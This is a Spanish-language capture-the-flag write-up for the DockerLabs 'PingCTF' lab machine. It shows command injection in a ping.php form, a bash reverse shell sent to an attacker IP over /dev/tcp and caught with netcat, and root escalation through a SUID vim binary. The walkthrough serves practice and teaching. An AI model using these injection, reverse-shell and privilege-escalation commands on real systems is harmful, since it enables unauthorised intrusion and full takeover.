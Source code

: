 # 🖥️ Writeup - PingCTF 

**Plataforma:** Dockerlabs  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip PingCTF.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh ping_ctf.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 
```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-04 19:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Ping
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```
El único puerto abierto es el puerto `80`, así que vamos a comprobar qué hay alojado.

Encontramos una especie de portal donde podemos verificar la conectividad introduciendo `IPs` o dominios.


![Portal de conectividad](../images/IP%20verify.png)

Haremos una prueba verificando la conectividad con Google introduciendo `8.8.8.8`.

Se nos redirige a una página de resultados en la que podemos ver que la URL es la siguiente:

```
http://172.17.0.2/ping.php?target=8.8.8.8
``` 

Es decir, el archivo `ping.php` ejecuta un comando `ping` al target que le hemos pasado como parámetro.

Si conseguimos inyectar algún comando propio junto con la `IP`, obtendremos un `RCE` y una potencial vía de intrusión.

Vamos a probar el clásico punto y coma después de la `IP`, seguido de un comando nuestro.

```bash
8.8.8.8;whoami
``` 
![whoami](../images/whoami.png)

Como vemos, ha funcionado y estamos interactuando con el usuario `www-data`.

Ahora vamos a intentar obtener una `reverse shell` a través del `RCE`, y para ello utilizaremos `BurpSuite` para interceptar la petición y manipularla con mayor comodidad.

Una vez interceptada la petición, inyectamos el comando:

```bash
bash -c 'bash -i >& /dev/tcp/10.0.4.12/4444 0>&1'
``` 
Luego seleccionamos el comando y pulsamos `Ctrl + U` para aplicar URL encoding.

Colocamos un listener en el puerto `4444` de nuestra máquina atacante.

```bash
nc -nlvp 4444
```
Hacemos `forward` a la petición y recibimos la `reverse shell` en la máquina atacante.

Info:
```
listening on [any] 4444 ...
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 56276
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@21a8aa7e4e6e:/var/www/html$
```

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

```bash
find / -perm -4000 -type f 2>/dev/null 
```

```bash
sudo getcap -r / 2>/dev/null
```

Info:
```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/vim.basic
```

En los binarios con permisos SUID nos llama la atención el último: `vim.basic`.

Es probable que podamos inyectar comandos en el editor de texto y ejecutarlos como root, así que vamos a intentarlo.

Probamos con los siguientes comandos, pero ninguno de ellos funcionó.

```bash
/usr/bin/vim.basic -c ':!bash -p'
```

```bash
/usr/bin/vim.basic -c ':set shell=/bin/sh' -c ':shell'
```

Finalmente, lo conseguimos con el comando:

```bash
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/bash", "bash", "-pc", "reset; exec bash -p")'
```
Info:
```
bash-5.2# whoami
root
bash-5.2# 
```

Somos root!